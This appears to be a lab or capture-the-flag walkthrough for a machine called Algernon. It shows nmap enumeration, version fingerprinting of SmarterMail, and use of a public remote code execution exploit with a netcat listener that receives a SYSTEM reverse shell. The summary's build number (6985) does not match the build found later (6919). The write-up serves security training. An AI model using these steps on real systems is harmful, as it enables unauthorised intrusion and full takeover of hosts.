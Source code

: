 ____

# Exploitation Guide for Algernon

## Summary

We will exploit this machine via a remote code execution vulnerability in build 6985 of the SmarterMail application.

## Enumeration

### Nmap

Let's start with an `nmap` scan against all TCP ports:

```
kali@kali:~$ sudo nmap -p- 192.168.120.110
Nmap scan report for 192.168.120.110
Host is up (0.28s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
9998/tcp  open  distinct32
17001/tcp open  unknown
```

Port 9998 seems interesting. Let's scan it more aggressively.

```
kali@kali:~$ sudo nmap -A -p 9998 192.168.120.110
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-12 06:00 EDT
Nmap scan report for 192.168.120.110
Host is up (0.31s latency).

PORT     STATE SERVICE VERSION
9998/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.48 seconds
```

This seems to be a Microsoft IIS application. Browsing to port 9998, we discover that the application is SmarterMail version 6919:

```
kali@kali:~$ curl -L http://192.168.120.110:9998

<!DOCTYPE html>
...
var cssVersion = "100.0.6919.30414.8d65fc3f1d47d00";
var stProductVersion = "100.0.6919";
var stProductBuild = "6919 (Dec 11, 2018)";
...
```

## Exploitation

### RCE

Searching the Exploit Database, we discover a [remote code execution vulnerability](https://www.exploit-db.com/exploits/49216) for an older version of this software. Although the version numbers differ, we'll attempt this exploit against this target.

We'll download the exploit, update the `HOST` and `LHOST` variables as needed, and set `LPORT` to 17001.

Next, we'll set up a netcat listener on port 17001 and launch the exploit.

```
kali@kali:~$ python3 49216.py
```

Our listener indicates that we have obtained a SYSTEM shell.

```
kali@kali:~$ nc -lvp 17001
listening on [any] 17001 ...
192.168.120.110: inverse host lookup failed: Unknown host
connect to [192.168.118.6] from (UNKNOWN) [192.168.120.110] 49852
whoami
nt authority\system
PS C:\Windows\system32>
```

## Escalation

Since we have SYSTEM privileges on the target, no further escalation is required.


